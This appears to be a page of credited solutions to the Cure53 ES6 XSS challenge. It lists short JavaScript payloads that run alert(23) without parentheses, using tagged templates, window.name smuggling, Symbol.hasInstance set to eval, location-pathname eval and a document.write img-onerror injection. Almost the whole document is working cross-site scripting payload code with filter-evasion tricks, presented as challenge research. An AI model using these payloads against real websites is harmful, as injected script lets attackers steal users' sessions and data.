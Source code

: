 [hasegawayosuke](https://github.com/cure53/XSSChallengeWiki/wiki/ES6-Challenge)

    window.name="alert(23)"
    location="xss.html"
    
xss.html

    [].every.call`eval\x28name\x29${eval}`
    
---

[Tomer Zait](https://twitter.com/realgam3/status/1298290461371662337)

    []["filter"]["constructor"]`alert\x2823\x29```
    
---

[Pepe Vila](https://twitter.com/cgvwzq)

    Array.prototype[Symbol.hasInstance]=eval;
    "alert\x2823\x29" instanceof [];
    
---


[RootEval](https://twitter.com/RootEval)

    x='javascript:alert\x2823\x29';x={x:location}=this
    
---

[iwasakinoriaki](https://github.com/cure53/XSSChallengeWiki/wiki/ES6-Challenge)

    window.name="alert(23)"
    location="xss.html"
    
xss.html

    eval.call`${top.name}`
    
---

[Cure53](https://github.com/cure53/XSSChallengeWiki/wiki/ES6-Challenge)

    window.name="<img src=x onerror=alert(23)>"
    location="xss.html"
    
xss.html

    document.write`${top.name}`
    
---

[mage_1868 ](https://github.com/cure53/XSSChallengeWiki/wiki/ES6-Challenge)

    location="https://example.com/xss.html/.source;alert(23)?xss="
    
example.com

    eval.call`${location.pathname}`
    
---
